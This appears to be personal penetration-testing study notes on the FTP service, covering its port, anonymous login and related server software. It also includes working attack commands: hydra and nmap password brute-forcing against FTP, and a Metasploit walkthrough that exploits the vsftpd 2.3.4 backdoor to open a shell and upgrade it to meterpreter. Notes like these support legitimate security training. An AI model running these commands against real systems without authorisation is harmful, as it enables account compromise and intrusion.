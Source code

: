 # Table of Contents
1. [Overview](#Overview)
	1. Ports
	3. Usage
	4. Related Services
2. [Tools](#Tools)
	1. [hydra](#hydra)
	2. [nmap](#nmap)
	3. [msfconsole](#msfconsole)

---

# #Overview 
FTP - File Transfer Protocol

File sharing protocol used by different services

## #Ports
- 21 : Win/Lin : Main port for access

## Usage
`ftp 192.156.2.3`
- anonymous login
	- user: anonymous
	- pass: null : just hit enter
- When connected
	- status : show information on connection
	- passive : toggle passive mode

## Related Services
vsftp
SFTP
ProFTPD
IIS FTP

---

# #Tools
## #hydra
[Tool info - hydra](../Tools/Hydra.md)

Can use [SMTP](SMTP.md#msfconsole) if service is available to discover user account list.

Dictionary attack with *userlist* and *passlist*
- -t : threads
- -L : user File
- -P : pass File
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <IP> -t 4 ftp
```

---

## #nmap
[Tool info - nmap](../Tools/NMAP.md)

Scripts
```bash
nmap <IP> --script ftp-brute --script-args userdb=/root/users -p 21
```
- --script
	- ftp-brute
		- `--sript-args userdb=/userlist.txt`
	- ftp-anon : checks for anonymous login

---

## #msfconsole
[Tool Info - MSF](../Tools/MSF.md)

1. `search type:exploit vsftpd`
2. `use exploit/unix/ftp/vsftpd_234_backdoor`
	1. info
	2. run : easy
	3. `/bin/bash -i` : launch bash session
	4. ctrl-z : to background the session
3. `search shell_to_meterpreter` : look for module to upgrade session
4. `use post/multi/manage/shell_to_meterpreter`
	1. `set LHOST eht1` : set to ip of interface eth1
	2. `set session 1` : set it to the session number for the shell connection
	3. `run`
5. `sessions -u 1` : to auto upgrade session to meterpreter
6. `sessions` : to show and then connect by specifying number
